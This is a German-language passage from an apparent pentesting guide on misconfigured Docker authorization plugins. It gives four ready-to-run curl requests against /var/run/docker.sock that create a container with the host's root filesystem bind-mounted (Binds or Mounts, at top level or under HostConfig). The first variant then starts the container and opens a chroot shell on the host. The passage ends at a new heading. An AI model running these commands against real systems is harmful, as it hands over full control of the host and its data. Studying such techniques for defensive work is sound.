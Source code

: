 ### Binds in root

Es ist möglich, dass der Sysadmin beim Konfigurieren der Docker-Firewall **ein wichtiges Parameter** der [**API**](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) wie "**Binds**" **vergessen hat**.\
Im folgenden Beispiel ist es möglich, diese Fehlkonfiguration auszunutzen, um einen Container zu erstellen und auszuführen, der das Root-Verzeichnis (/) des Hosts einbindet:
```bash
docker version #First, find the API version of docker, 1.40 in this example
docker images #List the images available
#Then, a container that mounts the root folder of the host
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create
docker start f6932bc153ad #Start the created privileged container
docker exec -it f6932bc153ad chroot /host bash #Get a shell inside of it
#You can access the host filesystem
```
> [!WARNING]
> Beachten Sie, dass wir in diesem Beispiel den **`Binds`**-Parameter als Schlüssel auf der obersten Ebene im JSON verwenden, aber in der API erscheint er unter dem Schlüssel **`HostConfig`**.

### Binds in HostConfig

Befolgen Sie die gleichen Anweisungen wie bei **Binds in root**, indem Sie diese **Anfrage** an die Docker API senden:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Binds":["/:/host"]}}' http:/v1.40/containers/create
```
### Mounts im Root

Befolgen Sie die gleichen Anweisungen wie bei **Binds im Root** und führen Sie diese **Anfrage** an die Docker API aus:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}' http:/v1.40/containers/create
```
### Mounts in HostConfig

Befolgen Sie die gleichen Anweisungen wie bei **Binds in root**, indem Sie diese **Anfrage** an die Docker API senden:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "HostConfig":{"Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}}' http:/v1.40/containers/cre
```
## Unchecked JSON-Attribut
